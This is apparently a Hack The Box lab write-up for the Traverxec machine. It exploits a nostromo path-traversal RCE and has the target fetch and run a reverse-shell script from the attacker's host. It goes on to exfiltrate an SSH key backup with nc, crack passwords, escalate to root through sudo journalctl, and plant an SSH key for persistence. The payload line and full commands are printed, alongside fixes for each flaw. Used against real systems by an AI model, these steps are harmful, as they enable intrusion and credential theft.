







# Traverxec Writeup

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Traverxec system.
The specific IP address was:

**System IP**

- 10.10.10.165

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a system.
During this penetration test, I was able to successfully gain access to the Traverxec system

### System IP: 10.10.10.165

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

### System IP: 10.10.10.165

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.165      | **TCP**: 22,80


**Nmap Scan Results:**

Nmap only found two open ports, 22 and 80.

```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ nmap -p 22,80 -sV -sC -A 10.10.10.165  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-23 17:43 EST  
Nmap scan report for 10.10.10.165  
Host is up (0.020s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)  
| ssh-hostkey:   
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)  
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)  
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)  
80/tcp open  http    nostromo 1.9.6  
|_http-server-header: nostromo 1.9.6  
|_http-title: TRAVERXEC  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

*Nostromo RCE*

I had no idea what Nostromo was so I googled it, I instantly found an exploit db entry for an RCE. The script looked simple enough and required no authentication. 

https://www.exploit-db.com/exploits/47837

Testing with 'whoami'

```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ python2.7 47837.py 10.10.10.165 80 whoami  
  
                                       _____-2019-16278  
        _____  _______    ______   _____\    \     
   _____\    \_\      |  |      | /    / |    |    
  /     /|     ||     /  /     /|/    /  /___/|    
 /     / /____/||\    \  \    |/|    |__ |___|/    
|     | |____|/ \ \    \ |    | |       \          
|     |  _____   \|     \|    | |     __/ __       
|\     \|\    \   |\         /| |\    \  /  \      
| \_____\|    |   | \_______/ | | \____\/    |     
| |     /____/|    \ |     | /  | |    |____/|     
 \|_____|    ||     \|_____|/    \|____|   | |     
        |____|/                        |___|/
 
www-data  
```

Used wget to upload a simple bash reverse shell.

Hosted the script using python3 web server.

```sh
(kali@kali)-[~/boxes/htb/traverxec]
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.165 - - [24/Nov/2021 10:46:18] "GET /test.sh HTTP/1.1" 200 -

```

Then downloaded it.

```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ python2.7 47837.py 10.10.10.165 80 'wget http://10.10.14.25/test.sh -O /tmp/test.sh'   
  
......
  
--2021-11-23 17:49:15--  http://10.10.14.25/test.sh  
Connecting to 10.10.14.25:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 52 [text/x-sh]  
Saving to: '/tmp/test.sh'  
  
     0K                                                       100% 12.4M=0s  
  
2021-11-23 17:49:15 (12.4 MB/s) - '/tmp/test.sh' saved [52/52]  
```  
  
 Contents of test.sh:
 
  
  
 I then made it executable.
  
  ```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ python2.7 47837.py 10.10.10.165 80 'chmod +x /tmp/test.sh'  
  
  
......
  
```  
  
 Started a listener and ran the script.
  
 ```sh 
(kali@kali)-[~/boxes/htb/traverxec]  
$ python2.7 47837.py 10.10.10.165 80 '/tmp/test.sh'  
  
......

```

This gave me a reverse shell.

  

**Vulnerability Explanation:**

This vulnerability stems from the Nostromos application's failure to properly verify the path of URLs. This allows the path of a shell file to be passed via a post request along with a command, resulting in command execution. 

The payload variable from the python script:

```sh
payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
```

Detailed information on this vulnerability:
https://portswigger.net/daily-swig/nostromo-web-servers-exposed-by-resurrected-rce-vulnerability

**Vulnerability Fix:**

Upgrade to a newer version of Nostromo (1.9.9).

**Severity:**

Critical

**Proof of Concept Code Here:**

Python script is hosted on Exploit db and can be found here:
https://www.exploit-db.com/exploits/47837

#### Lateral Movement

**Enumeration and Linpeas**

Initially as the www-data user, I was unable to find a route for priv esc. 

There was another user on the system, david, but I was unable to access the home directory.

```sh
www-data@traverxec:/home/david$ ls  
ls  
ls: cannot open directory '.': Permission denied
```

I transferred linpeas to the system.

```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...  
10.10.10.165 - - [23/Nov/2021 17:56:04] "GET /lin.sh HTTP/1.1" 200 -
```

I made it executable and ran it.

```sh
wget http://10.10.14.25/lin.sh  
wget http://10.10.14.25/lin.sh  
--2021-11-23 17:56:04--  http://10.10.14.25/lin.sh  
Connecting to 10.10.14.25:80... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 451118 (441K) [text/x-sh]  
Saving to: 'lin.sh'  
  
lin.sh              100%[===================>] 440.54K  1.54MB/s    in 0.3s      
  
2021-11-23 17:56:05 (1.54 MB/s) - 'lin.sh' saved [451118/451118]  
  
chmod +x lin.sh  
chmod +x lin.sh  
./lin.sh  
./lin.sh
```

Linpeas did find a password hash for david.

```sh
Analyzing Htpasswd Files (limit 70)  
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd  
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Hashcat was able to crack the password.

```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ hashcat -m 500 -a 0 david.hash /usr/share/wordlists/rockyou.txt   
hashcat (v6.1.1) starting...

......

$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:No........

......

```

While I did have a password from .htaccess in Nostromo files, I couldn't find anywhere this worked. Looking more into /var/nostromo/conf I saw nhttpd.conf. At the bottom it contained the location of the HOMEDIRS.

```sh
# HOMEDIRS [OPTIONAL]  
  
homedirs /home 
homedirs_public public_www
```

Further info - In searching information about nostromo I found this link [https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), which showed this section on 'HOMEDIRS'. The article also explains that nostromo can use basic authentication. I had tried multiple methods of [http://10.10.10.165/~david/](http://10.10.10.165/~david/) and [http://10.10.10.165/home/](http://10.10.10.165/home/) using basic authentication for david:Nowonly4me with no luck.



I instead tried to cd into /home/david/public_www and it worked. 

```sh
www-data@traverxec:/home/david$ cd public_www  
cd public_www  
www-data@traverxec:/home/david/public_www$ ls -al  
ls -al  
total 16  
drwxr-xr-x 3 david david 4096 Oct 25  2019 .  
drwx--x--x 5 david david 4096 Oct 25  2019 ..  
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html  
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

**Getting access to David user account**

Inside this directory was one very interesting gzip file.  

```sh
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -al  
ls -al  
total 16  
drwxr-xr-x 2 david david 4096 Oct 25  2019 .  
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..  
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess  
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz  
```
  
  
  
I used nc to transfer the file from the system to my kali.
  
  
```sh
www-data@traverxec:/home/david/public_www/protected-file-area$ nc -nv 10.10.14.25 443 < backup-ssh-identity-files.tgz  
<-nv 10.10.14.25 443 < backup-ssh-identity-files.tgz             
(UNKNOWN) [10.10.14.25] 443 (https) open  
```
  
  
  
```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ nc -lvnp 443 > ssh_backup.tgz  
listening on [any] 443 ...  
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.165] 51128  
```

  
  
It looks like it contains the ssh keys for david  
  
```sh
(kali@kali)-[~/boxes/htb/traverxec]  
$ file ssh_backup.tgz   
ssh_backup.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240  
(kali@kali)-[~/boxes/htb/traverxec]  
$ tar -xvf ssh_backup.tgz   
home/david/.ssh/  
home/david/.ssh/authorized_keys  
home/david/.ssh/id_rsa  
home/david/.ssh/id_rsa.pub  
```
   
  
I attempted to ssh in as david, but the key requires a password

```sh
┌──(kali㉿kali)-[~/boxes/htb/traverxec/home/david/.ssh]  
└─$ ssh david@10.10.10.165 -i id_rsa  
Enter passphrase for key 'id_rsa':
```
    
	
I used ssh2john to create output john could handle  
  
 ```sh
(kali@kali)-[/usr/share/john]  
$ ./ssh2john.py ~/boxes/htb/traverxec/home/david/.ssh/id_rsa  
/home/kali/boxes/htb/traverxec/home/david/.ssh/id_rsa:$sshng$1$16$477EEFFBA56F9D283D349033D5D08C4F$1200$b1ec9e1ff7de1b5f5395468c76f1d92bfdaa7f2f29c3076bf6c83be71e213e9249f186ae856a2b08de0b3c957ec1f086b6e8813df672f993e494b90e9de220828aee2e45465b8938eb9d69c1e919
......
```
  
  
Then used john to crack the password  
  
```sh
(kali@kali)-[~/boxes/htb/traverxec/home/david/.ssh]  
$ john john_ssh --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])  
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes  
Cost 2 (iteration count) is 1 for all loaded hashes  
Will run 4 OpenMP threads  
Note: This format may emit false positives, so it will keep trying even after  
finding a possible candidate.  
Press 'q' or Ctrl-C to abort, almost any other key for status  
h.....          (?)  
Warning: Only 2 candidates left, minimum 4 needed for performance.  
1g 0:00:00:02 DONE (2021-11-24 09:40) 0.3676g/s 5272Kp/s 5272Kc/s 5272KC/sa6_123..*7¡Vamos!  
Session completed  
```
  
  
  
  
SSH in as david using the password found.
  
```sh
(kali@kali)-[~/boxes/htb/traverxec/home/david/.ssh]  
$ ssh david@10.10.10.165 -i id_rsa  
Enter passphrase for key 'id_rsa':   
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64  
david@traverxec:~$   
```
  
  
  
Here I was able to get user.txt  
  
```sh
david@traverxec:~$ cat user.txt  
7db0b48469606...................
```

**Vulnerability Explanation:**

While permissions were restriced on /home/david, as the www-data user I was able to gain access to /home/david/public_www and obtain the gzipped file that contained ssh keys for david. 

**Vulnerability Fix:**

Permissions should be changed so other users cannot access that folder.

**Severity:**

Critical


**Proof Screenshot Here:**



**Proof.txt Contents:**

```sh
david@traverxec:~$ cat user.txt  
7db0b48469606...................
```

#### Privilege Escalation

I went back to linpeas and ran that as David. Two interesting things popped up here.

     
```sh
 PATH  
https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses  
/home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games  
New path exported: /home/david/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/sbin:/usr/sbin:/sbin  
```
    
  
```sh
 .sh files in path  
https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path  
You own the script: /home/david/bin/server-stats.sh
```

Looking at permissions in this /home/david/bin, the david user owns these files. 

```sh
david@traverxec:~/bin$ ls -al 
total 16
drwx------ 2 david david 4096 Nov 24 09:56 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Looking into what this script does shows something interesting, the last line of the script runs /usr/bin/sudo

```sh
david@traverxec:~/bin$ cat server-stats.sh  
#!/bin/bash  
  
cat /home/david/bin/server-stats.head  
echo "Load: `/usr/bin/uptime`"  
echo " "  
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"  
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"  
echo " "  
echo "Last 5 journal log lines:"  
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```


Running the script shows this actually executes.

```sh
david@traverxec:~/bin$ ./server-stats.sh  
                                                                          .----.  
                                                              .---------. | == |  
   Webserver Statistics and Data                              |.-"""""-.| |----|  
         Collection Script                                    ||       || | == |  
          (c) David, 2019                                     ||       || |----|  
                                                              |'-.....-'| |::::|  
                                                              '"")---(""' |___.|  
                                                             /:::::::::::\"    "  
                                                            /:::=======:::\  
                                                        jgs '"""""""""""""'   
  
Load:  10:08:16 up 16:28,  2 users,  load average: 0.00, 0.00, 0.00  
   
Open nhttpd sockets: 3  
Files in the docroot: 117  
   
Last 5 journal log lines:  
-- Logs begin at Tue 2021-11-23 17:39:21 EST, end at Wed 2021-11-24 10:08:16 EST. --  
Nov 24 09:06:52 traverxec sudo[16072]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/2 ruser=www-data rhost=  user=www-data  
Nov 24 09:06:53 traverxec sudo[16072]: pam_unix(sudo:auth): conversation failed  
Nov 24 09:06:53 traverxec sudo[16072]: pam_unix(sudo:auth): auth could not identify password for [www-data]  
Nov 24 09:06:53 traverxec sudo[16072]: www-data : command not allowed ; TTY=pts/2 ; PWD=/tmp ; USER=root ; COMMAND=list  
Nov 24 09:06:53 traverxec nologin[16128]: Attempted login by UNKNOWN on UNKNOWN
```

Knowing I could execute /usr/bin/journalctl as sudo, I took a look on GTFObins to see if there was an entry, and there is.

https://gtfobins.github.io/gtfobins/journalctl/


The entire command being executed is:
```sh
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

By cutting off this command at the pipe and just entering ''/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service" it sends the filtered data to less.



And here I entered !/bin/sh, following the entry on GTFObins.



**Vulnerability Explanation:**

Allowing the user david to execute /usr/bin/journalctl as sudo creates a possible route for privilege escalation.

**Vulnerability Fix:**

Edit the sudoers file to remove the ability to run /usr/bin/journalctl as sudo from the david user.

**Severity:**

Critical

**Proof Screenshot Here:**



**Proof.txt Contents:**

```sh
# cat root.txt  
9aa36a6d76f7..................
```

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

As the root user I created the .ssh/authorized_keys file in the /root directory.

```sh
# mkdir .ssh
# cd .ssh
# touch authorized_keys
```


I created ssh keys using ssh-keygen and copied the id_rsa.pub into the authorized_keys file I created. 

```sh
┌──(kali㉿kali)-[~/boxes/htb/traverxec]
└─$ ssh-keygen
Generating public/private rsa key pair.
```

Copy id_rsa.pub.

```sh
┌──(kali㉿kali)-[~/boxes/htb/traverxec]
└─$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC6KPciGI0pW9AR3sIfXohjH8PcM0amrCRVAXAafPgYRg4DKW84Y+qaR7cdeQdbzUNuSyS1kU99jZlle2rP1YpeeeQJn+/Md3l2XVG6hhB9brhK02U5cTui70YV1bDuB82UFCMXrIdu+gzl/3rROWnmM5wEtEHqxupaRHNmfKo2s3LIRx+d1NNKTkB7iuOkh5iJ5TP9umusB3p/suSaRO8eIHQwyjPhojSexMdwRLEfGwT201oiuvyeQxWVRRHkW0WPLykGEZAHD9I2IGmSd2PNX1BZYlwpWvKiHWQFaVPXkbnYALM2sp31756KTufwEi7HjDAdRZ6qGqRLYZne7Q0PDcbvmrwACfxy16zXgT8xqh6xXzyJcbl3FY83wvtc69menR86DmIugOUSD5r095eUHLh+0ruKQ7As0yimoejWYm+GB8NhaQumGGPAcx14gN47pbtXRisL+esQAghug7ptdsXBh5y7X8vvn1ZqQRtyiJOS9TEPJbHx5mCokctz2p0= kali@kali
```

Echo into the authorized_keys file.

```sh
# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC6KPciGI0pW9AR3sIfXohjH8PcM0amrCRVAXAafPgYRg4DKW84Y+qaR7cdeQdbzUNuSyS1kU99jZlle2rP1YpeeeQJn+/Md3l2XVG6hhB9brhK02U5cTui70YV1bDuB82UFCMXrIdu+gzl/3rROWnmM5wEtEHqxupaRHNmfKo2s3LIRx+d1NNKTkB7iuOkh5iJ5TP9umusB3p/suSaRO8eIHQwyjPhojSexMdwRLEfGwT201oiuvyeQxWVRRHkW0WPLykGEZAHD9I2IGmSd2PNX1BZYlwpWvKiHWQFaVPXkbnYALM2sp31756KTufwEi7HjDAdRZ6qGqRLYZne7Q0PDcbvmrwACfxy16zXgT8xqh6xXzyJcbl3FY83wvtc69menR86DmIugOUSD5r095eUHLh+0ruKQ7As0yimoejWYm+GB8NhaQumGGPAcx14gN47pbtXRisL+esQAghug7ptdsXBh5y7X8vvn1ZqQRtyiJOS9TEPJbHx5mCokctz2p0= kali@kali
> ' >> authorized_keys
```


Now I have persistent access as the root user.

```sh
**┌──(kali㉿kali)-[~/boxes/htb/traverxec]
└─$ ssh root@10.10.10.165 -i id_rsa
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Nov 16 16:07:31 2019
root@traverxec:~#
```
